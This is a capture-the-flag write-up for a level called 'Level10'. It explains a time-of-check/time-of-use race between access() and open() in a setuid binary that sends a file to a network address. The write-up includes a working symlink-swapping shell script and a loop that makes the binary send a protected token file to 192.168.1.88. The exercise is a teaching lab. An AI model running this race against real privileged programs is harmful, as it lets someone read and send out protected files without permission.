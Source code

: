 # Level10

We have a binary which send the content of a file to an ip address on port 6969
It checks if we have access to the file and send its content.

The check is made by `access` with the flag `4` = `R_OK` so just check if it can be read

Lets try to create a symlink => `ln -s /home/user/level08/token /tmp/test` but it doesnt work.

The program is using access to check if we can open the file
and then open the file but `open` open the file as the user it is executed with so `flag10`.
So we can try to catch the small amount of time between `access` and `open` to switch to file being read.
Lets create a script:
```shell
#!/bin/sh

echo -n "" > /tmp/test

counter=0
while true; do
    
    ln -sf /tmp/test /tmp/magic
    ln -sf /home/user/level10/token /tmp/magic
    counter=$((counter + 1))
    printf "\r[%d] - Running...                          " "$counter"
done
```

```shell
while true; do ./level10 /tmp/magic 192.168.1.88; done
```